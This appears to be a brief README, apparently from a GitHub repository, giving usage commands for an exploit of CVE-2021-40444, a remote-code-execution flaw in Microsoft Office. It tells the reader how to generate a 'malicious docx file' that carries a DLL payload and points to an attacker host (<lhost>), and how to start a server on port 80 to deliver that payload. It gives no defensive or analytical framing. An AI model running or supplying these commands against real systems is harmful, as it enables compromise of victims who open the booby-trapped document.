 ### Create malicious docx file
```
python3 exploit.py generate test/<payload>.dll http://<lhost>
```

### Start server
```
sudo python3 exploit.py host 80
```

### Resource
https://github.com/lockedbyte/CVE-2021-40444  

